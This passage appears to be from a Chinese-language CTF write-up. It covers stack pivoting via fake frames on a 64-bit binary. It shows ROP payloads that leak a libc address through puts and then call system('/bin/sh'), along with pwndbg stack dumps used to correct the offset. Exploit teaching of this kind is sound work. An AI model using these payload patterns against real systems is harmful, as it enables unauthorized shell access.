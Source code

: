 ``fake ebp`` 填入 buf 的真实地址。

``ROP`` 两个功能：泄露 libc 地址、ret2text。泄露地址就用常规的 puts 函数。

```python
# leak libc
payload = p64(0xdeadbeef) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
payload += p64(sub_addr) # ret2text
payload = payload.ljust(0x50,'a') # padding
payload += p64(stack)
payload += p64(leave_ret)
```

###### getshell

泄露地址之后就再一次 frame faking ，只不过这次是执行 ``system("/bin/sh")`` 。

但是如果 fake ebp 依旧填写原值会报错，大概原因是因为上面 ROP 是直接调用 sub_400676 ，想比正常情况下压栈的数量和原来不一样，所以要重新计算偏移。

fake ebp 使用 ROP1 的值时：

```shell
pwndbg> 
0x00000000004006be in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────[ REGISTERS ]─────
…………
 RBP  0x7fffffffdd50 —▸ 0x7fffffffdd30 ◂— 0x6161616161616161 ('aaaaaaaa')
 RSP  0x7fffffffdd00 ◂— 0xdeadbeef
 RIP  0x4006be ◂— leave  
```

可以看到 RBP 经过两次 leave|ret 之后指向的是 aaaaaaaa ，正常应该是指向 0xdeadbeef 。

为了让程序执行正确地方，将 fake ebp 的值减 0x30 ，让 ebp 重新指向 0xdeadbeef ：

```shell
pwndbg> x /20gx 0x7fffffffdd30-0x30
0x7fffffffdd00:	0x00000000deadbeef	0x0000000000400793
0x7fffffffdd10:	0x00007ffff7b99d57	0x00007ffff7a52390
0x7fffffffdd20:	0x0000000000400676	0x6161616161616161
0x7fffffffdd30:	0x6161616161616161	0x6161616161616161
0x7fffffffdd40:	0x6161616161616161	0x6161616161616161
0x7fffffffdd50:	0x00007fffffffdd30	0x00000000004006be
0x7fffffffdd60:	0x6161616161616161	0x6161616161616161
0x7fffffffdd70:	0x6161616161616161	0x6161616161616161
0x7fffffffdd80:	0x00007fffffffdd30	0x00000000004006be
0x7fffffffdd90:	0x00007fffffffde88	0x0000000100000000
```

```shell
payload = p64(0xdeadbeef) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
payload += p64(sub_addr) # ret2text
payload = payload.ljust(0x50,'a') # padding
payload += p64(stack)
payload += p64(leave_ret)
```

